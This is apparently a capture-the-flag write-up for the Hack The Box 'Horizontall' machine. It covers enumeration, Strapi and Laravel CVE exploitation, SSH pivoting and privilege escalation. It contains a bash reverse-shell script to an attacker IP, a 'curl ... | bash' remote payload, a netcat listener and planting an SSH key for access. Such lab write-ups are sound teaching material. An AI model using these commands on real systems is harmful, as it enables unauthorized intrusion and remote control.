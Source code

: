 # [Horizontall](https://app.hackthebox.com/machines/Horizontall)

```bash
nmap -p- --min-rate 10000 10.10.11.105
```

![Alt text](img/image.png)

After knowing open ports (22,80) we can do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.105 -Pn
```

![Alt text](img/image-1.png)


We see automatic resolving, that's why let's add into '/etc/hosts' file.

![Alt text](img/image-2.png)


```bash
└─# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali.kali       kali

# The following lines are desirable for IPv6 capable host

10.10.11.105 horizontall.htb
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```


Once we are on website, let's do more enumeration, so that now we do Subdomain Enumeration.

```bash
ffuf -u http://horizontall.htb/ -H "Host: FUZZ.horizontall.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc 200
```

From this enumeration, we find 'www' and 'api-prod' subdomains.

![Alt text](img/image-7.png)

Let's do directory enumeration for 'api-prod.horizontall.htb'.

```bash
gobuster dir -u http://api-prod.horizontall.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40
```

![Alt text](img/image-3.png)



Once we are '/admin' page of 'api-prod.horizontall.htb' application, we see login form.
And we detect that here 'strapi' is used.


![Alt text](img/image-4.png)

Let's learn version of 'strapi'.

![Alt text](img/image-5.png)


Version: 3.0.0-beta.17.4


Let's search publicly known exploit for this version.

![Alt text](img/image-6.png)

We find 'CVE-2019-18818' AND 'CVE-2019-19609'.


I find such [exploit](https://github.com/glowbase/CVE-2019-19609)

![Alt text](img/image-8.png)

I got reverse shell.

![Alt text](img/image-9.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash

```


user.txt

![Alt text](img/image-10.png)


While enumeration for privilege escalation, I see that there is port '8000' is open.

![Alt text](img/image-11.png)


Let's browse port.

![Alt text](img/image-12.png)

I see that it is `Laravel` application.


To see this machine from our attackbox , we need to do **`PIVOTING`**


First, I generate public key to add target's machine via `ssh-keygen` command.

![Alt text](img/image-13.png)


Let's add our public key into target machine. User's home directory called '/opt/strapi'

```bash
cd ~
mkdir .ssh
cd .ssh
echo "public key" >> authorized_keys
```

![Alt text](img/image-14.png)

Now, create bind connection via `ssh` command.

```bash
ssh -i /root/.ssh/id_rsa strapi@10.10.11.105 -L 8001:localhost:8000
```

![Alt text](img/image-15.png)


Let's browse the page and see Laravel application.

![Alt text](img/image-16.png)


Once we browse '/profiles' endpoint of Laravel application, we see version of 'Laravel' application.

![Alt text](img/image-17.png)


Let's search publicly-known exploit.

I find 'CVE-2021-3129' exploit.

![Alt text](img/image-18.png)


Let's use this [exploit](https://github.com/nth347/CVE-2021-3129_exploit)


For this, first download script.

Here's command section which I will curl command that browse my shell.

```bash
shell.sh =>

#!/bin/bash
bash -i >& /dev/tcp/10.10.14.9/2023 0>&1


python3 -m http.server --bind 10.10.14.9 80
```
![Alt text](img/image-19.png)


Then open listener, due to above script.
```bash
nc -nvpl 2023
```

![Alt text](img/image-20.png)

Then run command belongs to exploit.

```bash
python3 exploit.py http://localhost:8001 Monolog/RCE1 'curl http://10.10.14.9/shell.sh|bash'
```

![Alt text](img/image-21.png)


root.txt

![Alt text](img/image-22.png)